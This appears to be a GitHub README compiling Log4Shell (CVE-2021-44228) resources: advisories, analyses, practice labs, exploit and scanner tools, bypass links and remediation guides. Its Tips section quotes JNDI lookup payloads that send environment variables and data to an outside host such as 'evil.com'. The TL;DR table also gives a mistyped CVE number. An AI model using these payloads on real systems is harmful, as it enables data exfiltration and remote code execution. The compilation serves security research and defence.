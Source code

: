 # Table of Contents
- [TL;DR](#tldr)
- [Technical analysis](#technical-analysis)
- [Advisories](#advisories)
- [Videos](#videos)
- [Intentionally vulnerable apps](intentionally-vulnerable-apps)
- [Tools & Exploits](#tools--exploits)
- [Tips](#tips)
- [WAF bypasses](#waf-bypasses)
- [Mega threads](#mega-threads)
- [Remediation](#remediation)
- [Some vulnerable apps/vendors](#some-vulnerable-appsvendors)
- [TODO](#todo)

# TL;DR

Term | Description
---|---
**Log4j** | The vulnerable Java Library
**JndiLookup** | The vulnerable part of Log4j
**CVE-2021-442228** | The initial vulnerability
**Log4Shell** | The exploit developped to attack this vulnerability
**CVE-2021-45046** | The second vulnerability (bypass that causes denial of service)

[Source: CVE-2021-44228 Log4j (and Log4Shell) Executive Explainer by cje@bugcrowd](https://www.slideshare.net/caseyjohnellis/cve202144228-log4j-and-log4shell-executive-explainer-by-cjebugcrowd) (modified to add the second CVE)

![Log4Shell-timeline](https://user-images.githubusercontent.com/35920302/146178407-14f764fa-a2f9-4024-9265-0aeaa1a03599.png)

[Source: cutekernel.github.io](https://cutekernel.github.io/technical-illustrations/cves-2021.html)

![log4j_attack](https://user-images.githubusercontent.com/35920302/146178704-84116a6f-1016-43c4-b1f3-0552dfa0fb03.png)

[Source: govcert.ch](https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/)

![log4shell png](https://user-images.githubusercontent.com/35920302/146170447-915c1f09-8b34-4390-8f1b-95f9cf892c7a.jpeg)

[Source: musana.net](https://musana.net/2021/12/13/log4shell-Quick-Guide/)

# Technical analysis
- [Log4j Analysis: More JNDI Injection](https://y4y.space/2021/12/10/log4j-analysis-more-jndi-injection/)
- [Rapid7 analysis](https://attackerkb.com/topics/in9sPR2Bzt/cve-2021-44228-log4shell/rapid7-analysis): Includes PoCs for Apache Struts2, VMWare VCenter, Apache James, Apache Solr, Apache Druid, Apache JSPWiki and Apache OFBiz

# Advisories
- [Apache Log4j Security Vulnerabilities](https://logging.apache.org/log4j/2.x/security.html)
- [CVE-2021-44228 on NIST](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

# Videos
- [What do you need to know about the log4j (Log4Shell) vulnerability?](https://www.youtube.com/watch?v=oC2PZB5D3Ys) (Great breakdown of the vulnerability in the first 15 min)
- [Short demo by @MalwareTechBlog](https://www.youtube.com/watch?v=0-abhd-CLwQ)
- [CVE-2021-44228 - Log4j - MINECRAFT VULNERABLE! (and SO MUCH MORE)](https://www.youtube.com/watch?v=7qoPDq41xhQ)
- [Log4Shell, The Worst Java Vulnerability in Years](https://www.youtube.com/watch?v=m_AkCbFc8DM)

# Intentionally vulnerable apps
- [Solar, exploiting log4j (TryHackMe room by @_JohnHammond)](https://tryhackme.com/room/solar)
- [PentesterLab Log4j RCE](https://pentesterlab.com/exercises/log4j_rce/course) & [Log4j RCE II](https://pentesterlab.com/exercises/log4j_rce_ii/course)
- [BugHuntr.io scenario](https://twitter.com/BugHuntrIo/status/1469298538593067012)
- [christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app)

# Tools & Exploits
- [woodpecker-appstore/log4j-payload-generator](https://github.com/woodpecker-appstore/log4j-payload-generator)
- [tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce](https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce)
- [JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit)
- [Thinkst Canary](https://twitter.com/thinkstcanary/status/1469439743905697797)
- [Huntress Log4Shell Tester](https://log4shell.huntress.com)
- [log4shell.nse](https://github.com/righel/log4shell_nse) (Nmap NSE script that injects a Huntress/CanaryTokens/custom log4shell payload in HTTP requests described by JSON templates)
- [@SilentSignalHU’s Log4Shell Scanner (Burp extension)](https://twitter.com/Burp_Suite/status/1470418532475314177)
- [ActiveScan++](https://twitter.com/albinowax/status/1469258291616403457)
- [fullhunt/log4j-scan](https://github.com/fullhunt/log4j-scan) & [How to combine it with Amass for higher coverage](https://twitter.com/jeff_foley/status/1470463924260777985)
- [Burp Bounty Pro Profile](https://twitter.com/BurpBounty/status/1469249786092085249)
- [whwlsfb/Log4j2Scan](https://github.com/whwlsfb/Log4j2Scan) (Passive Scanner plugin for Burp)
- [Semgrep rule](https://semgrep.dev/r?q=log4j-message-lookup-injection)
- [CodeQL query](https://github.com/cldrn/codeql-queries/blob/master/log4j-injection.ql)
- [Nuclei template](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-44228.yaml)
- [Burp Intruder in Pitchfork mode](https://twitter.com/ITSecurityguard/status/1470187651844161536)
- [LogMePwn](https://github.com/0xInfection/LogMePwn)

# Tips
- [The Log4J formatting is nestable which means payloads like `${jndi:ldap://${env:user}.xyz.collab.com/a}` will leak server side env vars](https://twitter.com/_StaticFlow_/status/1469358229767475205)
- [Tutorial on setting up RogueJDNI](https://twitter.com/ITSecurityguard/status/1469347404986077185)
- [Class path is useful information to have to know what gadgets should be available or where you need to look for some to get rce.](https://twitter.com/jstnkndy/status/1469752457618202624)
- [How to attack any JDK version for log4j "without" guessing classpath on server?](https://twitter.com/aaditya_purani/status/1470487281572237312)
- [Some events are only logged when an exception occur, so specially long payloads with unexpected characters may help you trigger those exceptions.](https://twitter.com/pwntester/status/1470435811812380675)
- [If you omit the closing brace `}` (so the payload would look like `${jndi:ldap://evil.com/`), you will potentially get a bunch of data exfiltrated to your server until the next `}` appears in that data](https://twitter.com/TomAnthonySEO/status/1470374984749133825)
- [Attack path works in *ANY* java version](https://twitter.com/marcioalm/status/1470361495405875200)
- [If you’re scanning for Log4Shell at scale, you can easily determine which host is pinging back by adding it to the start of your callback hostname](https://twitter.com/hakluke/status/1469875175839584257)

# WAF bypasses
- <https://twitter.com/wugeej/status/1469982901412728832>
- <https://twitter.com/BountyOverflow/status/1470001858873802754>
- <https://twitter.com/h4x0r_dz/status/1469663187079417857>
- <https://twitter.com/ymzkei5/status/1469765165348704256>
- <https://twitter.com/wireghoul/status/1469473975449255941>
- <https://twitter.com/Rezn0k/status/1469523006015750146>
- <https://twitter.com/Laughing_Mantis/status/1470526083271303172>

# Mega threads
- [Reddit mega thread curated by NCC Group](https://www.reddit.com/r/blueteamsec/comments/rd38z9/log4j_0day_being_exploited/)

# Remediation
- [Guide: How To Detect and Mitigate the Log4Shell Vulnerability (CVE-2021-44228)](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/)

# Some vulnerable apps/vendors
- [YfryTchsGD/Log4jAttackSurface](https://github.com/YfryTchsGD/Log4jAttackSurface)
- [20211210-TLP-WHITE_LOG4J.md](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592)
- [NCSC-NL/log4shell](https://github.com/NCSC-NL/log4shell/blob/main/software/README.md)
- [ZAP](https://www.zaproxy.org/blog/2021-12-10-zap-and-log4shell/)
- [Ingenuity, the Mars 2020 Helicopter mssion](https://twitter.com/TheASF/status/1400875147163279374)
- [VCenter](https://twitter.com/w3bd3vil/status/1469814463414951937)
- [Ghidra](https://twitter.com/zhuowei/status/1469186818549719042)
- [Apache JAMES SMTP server](https://twitter.com/dlitchfield/status/1469809966785564675)

# TODO
Add headers, payloads, data that can be exfiltarted, entry point examples & tools to receive OOB DNS requests.
